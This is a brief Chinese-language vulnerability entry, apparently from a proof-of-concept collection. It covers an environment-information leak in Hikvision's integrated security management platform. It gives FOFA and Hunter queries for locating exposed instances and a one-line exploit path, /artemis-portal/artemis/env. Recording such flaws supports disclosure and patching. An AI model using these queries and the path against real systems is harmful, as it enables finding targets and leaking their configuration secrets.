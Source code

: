 # HiKVISION 综合安防管理平台 env 信息泄漏漏洞

## 网络测绘

fofa: app="HIKVISION-综合安防管理平台"

hunter: app.name="Hikvision 海康威视 iSecure Center"

## POC / EXP

```
/artemis-portal/artemis/env 
```